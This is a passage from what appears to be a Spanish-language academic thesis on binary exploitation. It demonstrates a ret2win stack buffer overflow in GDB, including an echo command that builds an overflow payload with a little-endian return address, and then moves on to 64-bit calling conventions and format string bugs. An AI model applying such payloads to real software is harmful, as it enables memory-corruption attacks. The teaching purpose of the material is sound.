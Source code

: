 \begin{lstlisting}[language=bash, caption=Explotación de GDB con binario ret2win]
# Para que el programa entienda esa direccion de memoria, se necesita pasarlo en formato bytes
# Ademas dependiendo del endianness (Forma en la que lee las variables el binario), se necesita cambiar el orden
# En este caso (y en la gran mayoria) se usa little endian, se puede revisar usando show endian, por lo cual el valor que se debe pasar al programa es (0xa6910408)
# Se puede crear el payload usando bash con el siguiente comando: echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x91\x04\x08" > payload.txt
# Por ultimo, se carga como entrada al binario
$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x91\x04\x08" > payload.txt
(gdb) run < payload.txt
# Continuamos
(gdb) c
(gdb) c
Continuing.
Dime algo: 

Breakpoint 3, 0x080491ac in ret2win ()
# Stack Buffer overflow conseguido, se ha ejecutado la funcion ret2win
\end{lstlisting}

Con esta prueba de concepto, se puede entender el peligro de un \acrshort{bof}.
Aunque en esta demostración se tuviera una función `ret2win' que permite ejecutar una consola, hay otras técnicas que permiten llegar al mismo punto mediante librerías comunes como \acrshort{libc}.

\subsubsection{Diferencias entre 32bits y 64bits}
En la actualidad, las arquitecturas están basadas en sistemas 64bits.
Estas arquitecturas comparten gran parte de la convención de llamadas de 32bit, sin embargo, la forma en la que se comparten los parametros entre funciones se realiza de una forma diferente.
En las arquitecturas 32bit los parametros se comparten mediante el stack como se ha referenciado en la figura \ref{fig:stack-arch}.
En el caso de 64bit, los parametros se comparten mediante registros específicos. Además, el analogo al \acrshort{eip} que es el RIP en 64bits soporta direcciones de memoria menores a 0x00007FFFFFFFFFFF, es decir, 48bits.
Dependiendo del sistema operativo se usan unos registros u otros para compartir los parámetros.

Toda la información relacionada con la convención de llamadas de 64bit sobre linux se puede encontrar en el borrador publicado por la Linux Foundation \cite{x64asm}.

\subsection{Vulnerabilidad tipo Format String} \label{subsec:fmtstr}
El bug de tipo format string fue descubierto a principios de los 2000.
Al principio se consideró un bug, sin embargo, con el paso del tiempo se reconocieron los peligros que conllevaba este tipo de bug y pasó a considerarse una vulnerabilidad.

